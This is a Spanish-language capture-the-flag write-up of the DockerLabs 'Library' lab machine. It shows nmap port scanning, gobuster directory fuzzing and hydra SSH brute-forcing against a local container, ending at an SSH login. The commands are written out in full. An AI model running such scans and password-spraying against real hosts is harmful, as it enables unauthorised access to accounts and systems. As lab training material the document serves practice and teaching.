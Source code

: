 # Library

![DockerLabs](https://dockerlabs.es/images/logos/logo.png)

**Autor:** [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

**Dificultad:** Fácil

**Fecha de creación:** 13/05/2024

------------------------------------

DESPLIEGUE

```
bash auto_deploy.sh library.tar 
```

![](./images/Pasted%20image%2020241214192423.png)

Tenemos la IP : 

```
172.17.0.2
```

------------------------------------------

RECONOCIMIENTO 


```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

![](./images/Pasted%20image%2020241214192645.png)

Tiene los puertos 22 y 80 abierto. 

Vemos que en el 80 tiene un apache corriendo. 

![](BLOG-GIT/images/Pasted%20image%2020241214193450.png)

A continuación lo que podemos hacer es fuzzing, por lo que pondremos el siguiente comando: 

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-1.0.txt -x php,html,py,
```

![](./images/Pasted%20image%2020241214193649.png)

Vamos a entrar en cada uno de ello. 


![](./images/Pasted%20image%2020241214193832.png)

Tenemos unos caracteres. 
Vamos a intentar hacer un ataque de fuerza bruta por si es una contraseña. 

Metemos el siguiente comando para hacer fuerza bruta: 

```
hydra -P /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -l JIFGHDS87GYDFIGD ssh://172.17.0.2
```

Con el anterior diccionario no me lo encuentra. 

Así que pruebo con el siguiente: 

```
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2
```

Después de esperar un rato ... 


![](./images/Pasted%20image%2020241214201107.png)

Y entraremos por vía ssh. 

![](./images/Pasted%20image%2020241220193302.png)







